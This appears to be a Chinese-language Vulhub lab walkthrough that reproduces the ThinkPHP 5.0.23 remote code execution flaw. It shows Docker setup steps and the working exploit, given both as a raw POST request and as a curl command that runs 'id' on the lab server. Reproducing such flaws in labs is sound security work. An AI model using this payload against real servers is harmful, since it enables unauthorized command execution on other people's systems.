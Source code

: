 ```
[root@centos ~]# cd /root/vulhub/thinkphp/5.0.23-rce/
```

启动环境

```
[root@centos 5.0.23-rce]# docker-compose up -d
```

查看靶场的访问地址

```
[root@centos 5.0.23-rce]# cat docker-compose.yml
version: '3'
services:
 web:
   image: vulhub/thinkphp:5.0.23
   ports:
    - "8080:80"		“8080是虚拟机端口，80是 Docker 端口”
```

查看启动的环境

```
[root@centos 5.0.23-rce]# docker-compose ps
```

访问

> http://centos7-6.local:8080

查看复现文档

```
[root@centos ~]# cat /root/vulhub/thinkphp/5.0.23-rce/README.zh-cn.md
```

```
POST /index.php?s=captcha HTTP/1.1
Host: centos.local
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

> 在 Windows 用 Typora 查看效果更佳

**漏洞验证**

**Curl**

使用 curl 命令访问漏洞链接，并执行命令

```
┌──(root㉿kali)-[~]
└─# curl http://centos7-6.local:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id" |head -n 1
```
